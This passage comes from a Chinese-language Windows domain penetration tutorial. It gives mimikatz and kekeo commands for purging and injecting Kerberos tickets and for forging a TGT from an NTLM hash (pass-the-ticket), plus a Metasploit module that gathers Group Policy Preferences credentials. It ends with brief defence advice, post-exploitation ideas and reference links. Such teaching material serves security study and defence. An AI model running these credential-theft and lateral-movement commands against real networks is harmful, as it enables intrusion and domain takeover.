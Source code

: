 ```bash
kerberos::purge #清空当前机器存在的凭证
kerberos::ptc y:\downloads\TGT_yifan@test.local.ccache
```

显示Injecting ticket : OK就表示注入成功了～

4.查看注入是否成功并且登录域控：

发现已经将凭证注入进去了～下面可以使用net use进行登录，或者使用psexec,wmi等方法进行远程执行命令。注意，这里登录时，要使用机器名，不要使用IP，否则没办法攻击成功。

考虑到mimikatz的pth功能需要本地管理员权限，所以mimikatz也提供了不需要管理员权限的解决方法Pass-The-Ticket。Pass-The-Ticket需要用到gentilkiwi开源的另一款工具kekeo，下载[地址](https://github.com/gentilkiwi/kekeo)。参数实例：

```bash
kekeo "tgt::ask /user:test1 /domain:test.local /ntlm:7ECFFFF0C3548187607A14BAD0F88BB1"
```

执行后生成票据

```bash
TGT_test1@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi
```

接下来导入票据：

```bash
kekeo "kerberos::ptt TGT_test1@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi"
```



# 五、防御思路

结合攻击方法，总结防御思路如下：
检查特殊文件.scf 和 desktop.ini，避免被添加UNC路径
如无特殊需要，建议配置防火墙规则禁止139和445端口



# 六、后渗透思路拓展

- 内网欺骗劫持
- 钓鱼文件
- 后门命令
- 拿下一台文件服务器后，在上面创建图标、desktop.ini、link、url等
- [pass the hash with RDP](https://www.secpulse.com/archives/72190.html)

- 获取域控


```bash
msf> run post/windows/gather/credentials/gpp
```


**参考链接**

- [Microsoft NTLM](https://docs.microsoft.com/zh-cn/windows/desktop/SecAuthN/microsoft-ntlm)
- http://www.cnblogs.com/xwdreamer/archive/2012/08/23/2652541.html
- https://www.freebuf.com/articles/database/70395.html
- https://blog.csdn.net/qq_27446553/article/details/73635108
- [工作组和域的区别](https://zhidao.baidu.com/question/1845749.html)
- [彻底理解Windows认证](https://payloads.online/archivers/2018-11-30/1)
- [Windows安全认证是如何进行的？[NTLM篇]](https://www.cnblogs.com/artech/archive/2011/01/25/NTLM.html)
- [Windows下的身份验证----NTLM和Kerberos](https://blog.csdn.net/yangxin114/article/details/8112018)
- [域渗透之横向移动](http://xnianq.cn/2018/10/16/域渗透之横向移动/)
- https://blog.csdn.net/pyphrb/article/details/52051321
- [Windows下的密码hash-NTLM-hash和Net-NTLM-hash介绍](https://3gstudent.github.io/3gstudent.github.io/Windows下的密码hash-NTLM-hash和Net-NTLM-hash介绍/)
- [渗透技巧-利用netsh抓取连接文件服务器的NTLMv2-Hash](https://3gstudent.github.io/3gstudent.github.io/渗透技巧-利用netsh抓取连接文件服务器的NTLMv2-Hash/)
- https://blog.csdn.net/Fly_hps/article/details/80641938